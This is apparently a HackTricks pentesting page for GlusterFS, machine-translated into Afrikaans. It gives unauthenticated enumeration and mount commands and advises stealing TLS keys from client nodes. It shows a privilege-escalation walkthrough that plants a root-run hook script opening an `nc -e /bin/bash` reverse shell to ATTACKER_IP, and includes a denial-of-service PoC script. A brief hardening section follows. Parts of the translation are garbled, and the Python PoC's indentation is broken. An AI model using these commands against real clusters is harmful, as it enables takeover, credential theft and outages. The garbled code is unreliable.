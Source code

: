 # 24007-24008-24009-49152 - Pentesting GlusterFS

{{#include ../banners/hacktricks-training.md}}

## Basiese Inligting

**GlusterFS** is 'n **verspreide lêerstelsel** wat stoorplek van verskeie bedieners in een **geïntegreerde naamruimte** kombineer. Die bestuurdaemon (`glusterd`) luister standaard op **24007/TCP** en gee opdrag aan data-vlak bakstene wat begin by **49152/TCP** (een poort per baksteen, met 'n verhoging). Weergawes voor 9.x het **24008–24009/TCP** gebruik vir baksteen vervoer, so jy sal steeds daardie poorte in erfenisklusters teëkom.
```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```
> Wenk: 24007 antwoord RPC-oproepe selfs wanneer die slegs-stoor nodes **nie** enige volume uitvoer nie; daarom is die diens 'n betroubare pivot-teiken binne groot infrastruktuur.

## Opname

Installeer die kliëntnutsgoed op jou aanvaldoos:
```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```
1. **Peer ontdekking & gesondheid**
```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```
2. **Volume verkenning**
```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```
3. **Monteer sonder voorregte**
```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```
As die montering misluk, kyk na `/var/log/glusterfs/<vol_name>-<uid>.log` aan die kliëntkant. Algemene probleme is:

* TLS afdwinging (`option transport.socket.ssl on`)
* Adresgebaseerde toegangbeheer (`option auth.allow <cidr>`)

### Sertifikaat probleemoplossing

Steal die volgende lêers van enige geautoriseerde kliëntknoop en plaas dit in `/etc/ssl/` (of die gids wat in die foutlog aangedui word):
```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```
---

## Bekende Kw vulnerabilities (2022-2025)

| CVE | Aangetaste weergawes | Impak | Aantekeninge |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | Gebruik-na-vry in `dht_setxattr_mds_cbk` bereikbaar deur die netwerk | Afgeleë **DoS** en waarskynlike RCE. Geregverifieer in 10.4.1 / 11.1. |
| **CVE-2023-26253** | < 11.0 | Buite-grense lees in FUSE kennisgewing handler | Afgeleë kragonderbreking deur vervaardigde FS operasies; openbare PoC beskikbaar. |
| **CVE-2023-3775** | < 10.5 / 11.1 | Onkorrekte toestemming validasie wanneer `gluster_shared_storage` gemonteer word | Laat enige nie-geoutentiseerde kliënt toe om die admin volume te monteer – lei tot **priv-esc** hieronder verduidelik. |

> Kontroleer altyd `gluster --version` **op elke node**; heterogene klusters is algemeen na gedeeltelike opgraderings.

### Exploitering van `gluster_shared_storage` (Privilegie Escalatie)

Selfs in onlangse weergawes laat baie administrateurs die spesiale `gluster_shared_storage` volume wêreld-leesbaar omdat dit geo-replikaasie vereenvoudig. Die volume bevat cronjob sjablone wat met **root** op elke node loop.
```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```
As `hooks/1/` nie teenwoordig is nie, soek na `/ss_bricks/` – die presiese pad kan verskil met die hoofweergawe.

### Denial-of-Service PoC (CVE-2023-26253)
```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
s.send(p.get_buffer())
```
Running the script crashes `glusterfsd` < 11.0.

---

## Hardening & Detection

* **Opgradeer** – huidige LTS is 11.1 (Julie 2025).  Alle CVE's hierbo is reggestel.
* Aktiveer **TLS** vir elke baksteen:

```bash
gluster volume set <vol> transport.socket.ssl on
gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
```
* Beperk kliënte met CIDR-lists:

```bash
gluster volume set <vol> auth.allow 10.0.0.0/24
```
* Stel bestuuringspoort 24007 bloot slegs op 'n **private VLAN** of deur SSH-tunnels.
* Kyk logs: `tail -f /var/log/glusterfs/glusterd.log` en konfigureer **audit-log** funksie (`volume set <vol> features.audit-log on`).

---



## References

* [GlusterFS security advisories](https://docs.gluster.org/en/latest/release-notes/#security)
* [CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash](https://github.com/tinynetwork/gluster-notify-crash)
{{#include ../banners/hacktricks-training.md}}
